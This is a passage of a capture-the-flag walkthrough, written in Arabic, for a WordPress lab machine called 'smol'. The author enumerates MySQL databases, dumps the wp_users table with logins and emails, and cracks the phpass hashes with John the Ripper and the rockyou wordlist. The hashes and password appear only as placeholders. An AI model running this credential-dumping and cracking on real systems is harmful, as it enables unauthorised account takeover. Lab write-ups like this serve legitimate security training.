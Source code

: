 ```bash

mysql>
```
ياسلام، خلينا أول شي نشوف قواعد البيانات
```bash
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+
5 rows in set (0.00 sec)

mysql>
```

```bash
mysql> use wordpress;
mysql> show tables;
show tables;
+---------------------------+
| Tables_in_wordpress       |
+---------------------------+
| wp_users                  |
+---------------------------+
42 rows in set (0.01 sec)

mysql> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url            | user_registered     | user_activation_key | user_status | display_name           |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
|  1 | admin      | HASH | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 |                     |           0 | admin                  |
|  2 | wpuser     | HASH | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                     |           0 | wordpress user         |
|  3 | think      | HASH | think         | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | Jose Mario Llado Marti |
|  4 | gege       | HASH | gege          | gege@smol.thm      | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | gege                   |
|  5 | diego      | HASH | diego         | diego@local        | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | diego                  |
|  6 | xavi       | HASH | xavi          | xavi@smol.thm      | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xavi                   |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
6 rows in set (0.00 sec)
```
عندنا مجموعة من ال hashes من نوع phpass خلينا نستعمل john the ripper راح أنسخها لملف في جهازي، كل هاش في سطر لحاله. بعدين راح أشغل جون وانتظر:
```bash
$ john hash --format=phpass --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 
...
PASSWORD (?)
...
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
```